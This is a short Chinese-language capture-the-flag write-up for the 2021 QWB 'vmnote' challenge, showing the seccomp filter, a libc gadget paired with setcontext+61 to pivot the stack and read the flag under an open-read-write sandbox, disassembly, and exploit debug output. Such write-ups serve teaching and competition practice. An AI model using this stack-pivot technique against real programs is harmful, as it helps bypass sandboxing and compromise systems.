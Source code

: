这题开了沙箱需要进行orw

```
root@38b5d32d43ad:/CTF/qwb/2021/xx/vmnote# seccomp-tools dump ./vmnote
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x06 0x00 0x00 0x00000000  return KILL
```

在libc中可以找到非常有用的gadget：`*0x0000000000154930: mov rdx, qword ptr[rdi + 8];mov qword ptr[rsp], rax;call qword ptr[rdx + 0x20]*`配合`setcontext+61`的位置就能够劫持rsp从而劫持程序流实现orw。

```
pwndbg&gt; x/10i &amp;setcontext+61
   0x7f8be7a580dd &lt;setcontext+61&gt;:      mov    rsp,QWORD PTR [rdx+0xa0]
   0x7f8be7a580e4 &lt;setcontext+68&gt;:      mov    rbx,QWORD PTR [rdx+0x80]
   0x7f8be7a580eb &lt;setcontext+75&gt;:      mov    rbp,QWORD PTR [rdx+0x78]
   0x7f8be7a580ef &lt;setcontext+79&gt;:      mov    r12,QWORD PTR [rdx+0x48]
   0x7f8be7a580f3 &lt;setcontext+83&gt;:      mov    r13,QWORD PTR [rdx+0x50]
   0x7f8be7a580f7 &lt;setcontext+87&gt;:      mov    r14,QWORD PTR [rdx+0x58]
   0x7f8be7a580fb &lt;setcontext+91&gt;:      mov    r15,QWORD PTR [rdx+0x60]
   0x7f8be7a580ff &lt;setcontext+95&gt;:      test   DWORD PTR fs:0x48,0x2
   0x7f8be7a5810b &lt;setcontext+107&gt;:     je     0x7f8be7a581c6 &lt;setcontext+294&gt;
   0x7f8be7a58111 &lt;setcontext+113&gt;:     mov    rsi,QWORD PTR [rdx+0x3a8]
   ...
```

因为vm的栈是随机的因此需要进行一定的爆破，我本地大概6到7次成功一次。

```
[*] Switching to interactive mode
[DEBUG] Received 0x30 bytes:
    00000000  68 61 63 6b  21 21 21 21  21 2b 04 00  00 00 00 00  │hack│!!!!│!+··│····│
    00000010  00 00 00 73  a0 05 00 00  07 03 04 13  a3 05 00 00  │···s│····│····│····│
    00000020  05 03 04 12  06 0b 06 02  33 b6 05 00  00 12 00 12  │····│····│3···│····│
    00000030
hack!!!!!+\x04\x00\x00\x00\x00\xa0\x05\x00\x03\x13\x05\x00\x03\x12\x0b3\xb6\x05\x00\x00[*] Got EOF while reading in interactive
```
